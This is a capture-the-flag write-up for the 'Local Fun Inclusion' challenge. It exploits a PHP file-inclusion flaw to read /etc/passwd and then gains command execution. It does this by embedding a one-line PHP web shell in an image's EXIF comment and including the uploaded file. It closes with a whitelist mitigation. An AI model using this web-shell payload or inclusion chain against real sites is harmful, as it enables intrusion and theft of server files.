



# Local Fun Inclusion

## Solution

As the name suggest, there is probably some LFI and since it's PHP most likely via an [`include`](https://www.php.net/manual/de/function.include.php) using a user-supplied input.
Visiting the file page, we can see that there is an upload functionality:
<br/> <br/>

<br/> <br/>
If we click on `View the uploaded image` we are redirect to the following url: `http://lfi.hax1.allesctf.net:8081/index.php?site=view.php&image=uploads/cffa605a09b425b7db2d484c1db72b41.png`.
The parameter `site` seems to be our LFI, changing its value to `/etc/passwd` gives us the file content:
<br/> <br/>

<br/> <br/>
Since I didn't mangage to find any other interesting file, I assume we have to get RCE. Perhaps we can [hide valid php in the image and then include it](https://security.stackexchange.com/questions/32967/is-it-possible-to-execute-a-php-script-in-an-image-file).
```
$ exiftool -comment='<?php system($_GET["cmd"]); ?>' image.png
```
We can now upload the image with the php code and visit: `http://lfi.hax1.allesctf.net:8081/index.php?site=uploads/cffa605a09b425b7db2d484c1db72b41.png&cmd=ls`:
<br/> <br/>

<br/> <br/>
And indeed, we see `flag.php`. Let's try retrieve the content by visiting: `http://lfi.hax1.allesctf.net:8081/index.php?site=uploads/cffa605a09b425b7db2d484c1db72b41.png&cmd=cat flag.php | base64`:
<br/> <br/>
And we find the following base64 encoded string:
```
$ echo "PD9waHAKCiRGTEFHID0gIkNTQ0d7RzN0dGluZ19SQ0VfMG5fdzNiX2lzX2FsdzR5c19jb29sfSI7" | base64 -d
<?php

$FLAG = "CSCG{G3tting_RCE_0n_w3b_is_alw4ys_cool}";
```

## Mitigation

The best approach to mitigate such an issue is to use a whitelist of allowed pages to include, so that every value of `site` that doesn't equal `view.php` gets blocked for example.
